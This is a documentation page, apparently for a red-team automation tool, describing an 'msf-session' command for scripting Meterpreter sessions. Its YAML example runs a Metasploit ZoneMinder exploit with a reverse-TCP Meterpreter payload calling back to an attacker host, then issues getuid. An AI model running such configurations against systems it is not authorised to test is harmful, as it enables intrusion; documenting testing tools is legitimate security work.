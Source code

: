 .. _msf-session:

===========
msf-session
===========

This command allows to read and write commands to (Meterpreter)sessions that
have previously created by msf-modules(see :ref:`msf-module`).

.. code-block:: yaml

      commands:
        - type: msf-module
          cmd: exploit/unix/webapp/zoneminder_snapshots
          creates_session: "foothold"
          options:
            RHOSTS: 192.42.0.254
          payload_options:
            LHOST: 192.42.2.253
          payload: cmd/unix/python/meterpreter/reverse_tcp

        - type: msf-session
          session: "foothold"
          stdapi: True
          cmd: getuid

.. note::

   To configure the connection to the msfrpc-server see :ref:`msf_config`

.. confval:: stdapi

   Load stdapi module in the Meterpreter-session.

   :type: bool
   :default: ``False``

.. confval:: write

   Execute a raw write-operation without reading the output.

   .. note::

      If read and write are both true, the programm will first write and then read.

   :type: bool
   :default: ``False``

.. confval:: read

   Execute a raw read-operation without a write-operation.

   :type: bool
   :default: ``False``

.. confval:: session

   Use this session for all operations.

   :type: str
   :required: True

.. confval:: end_str

   This string indicated the end of a read-operation.

   :type: str
